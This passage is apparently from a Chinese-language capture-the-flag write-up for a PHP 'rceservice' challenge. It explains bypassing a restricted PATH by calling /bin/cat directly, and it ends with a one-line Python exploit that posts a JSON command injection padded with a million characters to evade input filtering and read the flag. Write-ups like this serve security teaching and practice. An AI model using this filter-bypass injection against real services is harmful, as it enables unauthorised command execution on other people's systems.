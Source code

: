 **![](img/b21f56c7653043d80654ddcf77ba6955.png)**

**我们去找旗子吧！**

**![](img/8f8e0358c00c72e3476c45e3b30f4b07.png)**

**抓住你了。让我们读国旗。**

**![](img/7420cd0727d8306b05b5dd0ead580b61.png)**

**什么！？**

**![](img/e358242f9a427c24decfff02e8f7e756.png)**

**哎呀。**

**如果你关注过**index.php**，你可能会记得应用程序的路径变量被:**

```
**putenv('PATH=/home/rceservice/jail');**
```

**这意味着我们当前的路径包含了 **ls** 二进制文件，这让我们可以执行它，但是不能执行 **cat** 。我们可以通过使用 cat 的绝对路径`/bin/cat`来绕过它。**

****最终漏洞:****

```
**import requests;payload = '{"cmd":"cd /home/rceservice/ && /bin/cat flag", "test" : "' + "a"*(1000000) + '"}';requests.post("[http://challenges.fbctf.com:8085/](http://challenges.fbctf.com:8085/)", data={"cmd":payload}).text**
```

**![](img/62f8ff6dbf5f28f1b235fb682106e9e3.png)**
